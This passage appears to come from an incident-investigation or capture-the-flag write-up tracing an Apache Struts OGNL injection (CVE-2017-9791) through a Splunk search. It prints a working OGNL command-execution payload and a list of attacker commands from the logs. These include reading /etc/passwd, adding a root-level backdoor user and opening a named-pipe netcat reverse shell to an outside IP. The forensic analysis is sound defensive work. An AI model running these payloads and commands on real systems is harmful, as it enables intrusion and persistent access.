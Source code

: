 It seems the malicious file is used for remote code execution via *showcase.action* - also CVE-2017-9791. In other words, it's related to *saveGangster.action*. You can see the exact correlation:

```bash
(saveGangster.action OR iexeplorer.exe)
  ((source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
    AND ParentImage="C:\\Windows\\Temp\\unziped\\lsof-master\\iexeplorer.exe")
  OR source="stream:http")
| table _time CommandLine form_data
| reverse
```

11:05:40:

`"C:\windows\temp\unziped\lsof-master\iexeplorer.exe" http://192.168.9.30:8080/frothlyinventory/showcase.action whoami`

11:05:43:

`"age=1&__checkbox_bustedBefore=true&name=${(#szgx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.close())}&description=1"` (*saveGangster.action* `form_data`)

<br>

The list of RCEs using this method:

1. whoami
2. id
3. groups
4. "cat /etc/passwd"
5. "useradd -ou 0 -g 0 -M -N -r -s /bin/bash tomcat7 -p davidverve.com"
6. "uname -a"
7. "lsb_release -a"
8. "echo <string> >> /tmp/colonel"
9. "echo <string> >> /tmp/definitelydontinvestigatethisfile.sh"
10. "ls -lf /tmp"
11. "base64 --decode /tmp/colonel > /tmp/colonel.c"
12. "cat /tmp/colonel.c"
13. "md5sum /tmp/colonel.c"
14. "mknod /tmp/backpipe p"
15. "/bin/sh 0</tmp/backpipe | nc 45.77.53.176 8088 1>/tmp/backpipe"
16. "mknod /tmp/backpipe p"
17. "/bin/sh 0</tmp/backpipe | nc 45.77.53.176 8088 1>/tmp/backpipe"

## Timeline

*In Notion/the PDF theses are colour-coded by category - links at the top of this page.*
